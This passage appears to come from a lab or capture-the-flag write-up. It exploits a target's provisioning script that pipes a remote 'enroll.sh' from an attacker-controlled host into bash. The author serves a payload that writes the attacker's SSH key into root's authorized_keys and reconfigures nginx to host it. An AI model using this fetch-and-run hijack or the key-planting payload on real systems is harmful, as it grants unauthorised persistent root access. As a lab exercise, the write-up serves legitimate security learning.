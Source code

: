 ```
  "message": ""
}
```

After downloading each, we found something interesting in `/opt/provision/modules/prov_osqd`
```
#!/usr/bin/bash
if  ; then
  echo "Missing options." >&2
  exit 42
fi
curl -sk https://os.control.vl/${1}/${2}/enroll.sh | bash
```

Since we control `os.control.vl`, where we can host malicious `entroll.sh`. First create a script in `/var/www/html`


```
root@os:/var/www/html# nano enroll.sh
root@os:/var/www/html# cat enroll.sh 
#!/bin/bash

echo "ssh-<SNIP>LTXH3V/ kali@kali" > /root/.ssh/authorized_keys
```

Change `/etc/nginx/sites-enabled/tls.conf` and add a new location `/pen/test` to make it functional for `curl -sk https://os.control.vl/${1}/${2}/enroll.sh` command, since it uses 2 arguments
```
<SNIP>
    location /pen/test {
        root /var/www/html;

    }

    location / {
        proxy_set_header        Host $host;
        proxy_set_header        X-Real-IP $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header        X-Forwarded-Proto $scheme;

        # Fix the “It appears that your reverse proxy set up is broken" error.
        proxy_pass          http://localhost:9000;
        proxy_read_timeout  90;
    }
<SNIP>
```
Reload `nginx`
```
root@os:/var/www/html# nginx -s reload
nginx: [warn] "ssl_stapling" ignored, no OCSP responder URL in the certificate "/etc/nginx/certs/osctrl-admin.crt"
nginx: [warn] "ssl_stapling" ignored, no OCSP responder URL in the certificate "/etc/nginx/certs/osctrl-admin.crt"
nginx: [warn] "ssl_stapling" ignored, no OCSP responder URL in the certificate "/etc/nginx/certs/osctrl.crt"

```
